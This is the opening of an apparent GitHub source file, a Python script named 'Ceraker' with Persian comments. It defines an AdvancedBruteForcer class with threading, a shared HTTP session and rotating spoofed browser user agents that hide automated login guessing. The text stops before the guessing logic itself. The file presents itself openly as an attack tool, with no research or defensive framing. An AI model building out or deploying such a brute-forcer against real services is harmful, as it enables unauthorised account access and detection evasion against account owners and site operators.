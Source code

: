 # Ceraker
For cerak
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import requests
import threading
import time
import random
from queue import Queue
import sys
import os

# کدهای رنگی ANSI
class Colors:
    GREEN = '\033[92m'
    RED = '\033[91m'
    YELLOW = '\033[93m'
    BLUE = '\033[94m'
    CYAN = '\033[96m'
    PURPLE = '\033[95m'
    SKY_BLUE = '\033[94m'  # آبی آسمانی
    LIGHT_BLUE = '\033[94m'  # آبی روشن
    END = '\033[0m'
    BOLD = '\033[1m'

class AdvancedBruteForcer:
    def __init__(self):
        self.found = False
        self.lock = threading.Lock()
        self.request_count = 0
        self.session = requests.Session()
        
    def get_random_user_agent(self):
        """فیک یوزر ایجنت های مختلف"""
        user_agents = [
            'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36',
            'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36',
            'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36',
            'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/121.0',
            'Mozilla/5.0 (iPhone; CPU iPhone OS 17_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.2 Mobile/15E148 Safari/604.1',
        ]
        return random.choice(user_agents)
    